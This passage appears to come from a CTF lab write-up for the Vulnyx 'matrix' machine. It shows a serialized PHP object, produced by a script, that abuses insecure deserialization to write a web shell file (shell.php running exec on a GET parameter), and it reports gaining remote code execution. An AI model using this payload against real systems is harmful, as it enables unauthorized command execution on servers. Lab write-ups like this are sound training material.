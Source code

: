 We execute the script, and this is what we will send:

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/matrix]
└─$ php serialize.php 
O:7:"Message":2:{s:4:"file";s:9:"shell.php";s:7:"message";s:33:"<?php echo exec($_GET[\"cmd\"]); ?>";}
```

![alt text](../../assets/images/matrix/image-12.png)

Now we have an RCE through the `shell.php` file created by deserializing the PHP message.

![alt text](../../assets/images/matrix/image-13.png)

